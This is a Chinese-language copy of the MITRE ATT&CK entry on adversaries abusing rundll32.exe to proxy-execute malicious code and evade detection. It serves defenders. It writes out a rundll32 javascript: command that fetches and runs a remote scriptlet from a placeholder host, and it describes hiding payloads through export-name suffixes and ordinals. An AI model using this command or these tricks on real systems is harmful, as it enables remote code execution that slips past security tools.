 ```yaml
---
hide:
  - toc
---
```


# Rundll32

对手可能会滥用rundll32.exe来代理执行恶意代码。使用rundll32.exe，而不是直接执行（即[共享模块](https://attack.mitre.org/techniques/T1129)），可能会避免触发安全工具，因为这些工具可能不会监控rundll32.exe进程的执行，因为白名单或正常操作的误报。rundll32.exe通常与执行DLL有效负载相关（例如：<code>rundll32.exe {DLLname, DLLfunction}</code>）。  rundll32.exe还可以用于执行[控制面板](https://attack.mitre.org/techniques/T1218/002)项目文件（.cpl），通过未记录的shell32.dll函数<code>Control_RunDLL</code>和<code>Control_RunDLLAsUser</code>。双击.cpl文件也会导致rundll32.exe执行。(引用: Trend Micro CPL) 例如，[ClickOnce](https://attack.mitre.org/techniques/T1127/002)可以通过Rundll32.exe代理。  rundll32还可以用于执行诸如JavaScript之类的脚本。这可以使用类似于以下的语法完成：<code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code> 这种行为已被Poweliks等恶意软件使用。(引用: This is Security Command Line Confusion)  对手还可能试图通过滥用rundll32.exe加载DLL函数名称的方式来掩盖恶意代码的分析。作为Windows对各种字符集的兼容性支持的一部分，rundll32.exe将在加载指定函数之前首先检查宽/Unicode然后是ANSI字符支持的函数（例如，给定命令<code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>，rundll32.exe将首先尝试执行<code>ExampleFunctionW</code>，如果失败则<code>ExampleFunctionA</code>，然后加载<code>ExampleFunction</code>）。因此，对手可能通过创建多个相同的导出函数名称并将<code>W</code>和/或<code>A</code>附加到无害的名称上来掩盖恶意代码。(引用: Attackify Rundll32.exe Obscurity)(引用: Github NoRunDll) DLL函数也可以通过序号导出并执行（例如：<code>rundll32.exe file.dll,#1</code>）。  此外，对手可能会使用[伪装](https://attack.mitre.org/techniques/T1036)技术（例如更改DLL文件名、文件扩展名或函数名）进一步隐藏恶意有效负载的执行。(引用: rundll32.exe defense evasion)
